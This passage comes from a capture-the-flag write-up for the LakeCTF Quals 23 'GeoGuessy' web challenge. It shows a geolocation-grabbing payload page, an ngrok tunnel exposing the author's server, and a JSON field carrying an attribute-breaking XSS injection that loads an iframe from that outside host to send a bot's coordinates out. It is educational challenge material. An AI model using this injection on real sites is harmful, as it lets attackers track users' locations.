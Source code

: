 ```html
        navigator.geolocation.getCurrentPosition(onsuccess, onerror, {enableHighAccuracy:true});
      }
      
      geolocate()
    </script>
  </body>
</html>
```

When the bot visit this `payload.html`, it'll send its longitude and latitude to our webhook URL.

- **Use Ngrok to port forward our static web server to the internet:**

```shell
┌[siunam♥Mercury]-(~/ctf/LakeCTF-Quals-23/web/GeoGuessy)-[2023.11.06|0:47:45(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://ed80-{Redacted}.ngrok-free.app -> http://localhost:80        
[...]
```

- **Create a new challenge with the XSS payload, and grab the challenge ID:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106005012.png)

```json
{
    "latitude":37.507338192034396,
    "longitude":145.6575352656073,
    "img":"foobar",
    "OpenLayersVersion":"2.13\"srcdoc=\"&lt;iframe src&equals;&quot;https&colon;&sol;&sol;ed80-{Redacted}&period;ngrok-free&period;app&sol;payload&period;html&quot; allow&equals;&quot;geolocation &ast;&quot;&gt;&lt;&sol;iframe&gt;\" allow=\"geolocation *\"",
    "winText":"blah"
}
```
